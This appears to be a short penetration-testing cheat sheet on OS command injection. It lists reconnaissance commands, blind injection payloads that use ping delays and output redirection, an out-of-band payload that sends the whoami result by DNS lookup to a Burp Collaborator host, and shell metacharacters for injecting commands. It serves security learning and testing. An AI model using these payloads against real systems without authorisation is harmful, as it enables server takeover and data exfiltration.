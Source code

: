 # 🟢 OS Command Injection

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data.

## <mark style="color:red;">Useful commands</mark>

| Purpose of command    |     Linux     |    Windows    |
| --------------------- | :-----------: | :-----------: |
| Name of current user  |     whoami    |     whoami    |
| Operating system      |    uname -a   |      ver      |
| Network configuration |  ifconfig -a  | ipconfig /all |
| Network connections   | netstat -tunl |  netstat -an  |
| Running processes     |     ps -ef    |    tasklist   |

## <mark style="color:red;">Blind OS command injection</mark>

<table><thead><tr><th width="295">Method</th><th>Command</th></tr></thead><tbody><tr><td>Time delays</td><td><pre><code>&#x26;ping -c 10 127.0.0.1
</code></pre><pre><code>||ping+-c+10+127.0.0.1+||
</code></pre></td></tr><tr><td>Redirecting output</td><td><pre><code>||whoami>/var/www/images/output.txt||
</code></pre></td></tr><tr><td>Out-Of-Band (OOB)<br>DNS lookup. You can use Burp Collaborator</td><td><p></p><pre><code>||nslookup+`whoami`.x.burpcollaborator.net||
</code></pre><pre><code>||nslookup+x.burpcollaborator.net||
</code></pre></td></tr></tbody></table>

## <mark style="color:red;">Useful meta characters</mark>

```
&
&&
|
||
;
Newline (0x0a or \n)
`injected command `
$( injected command )
```
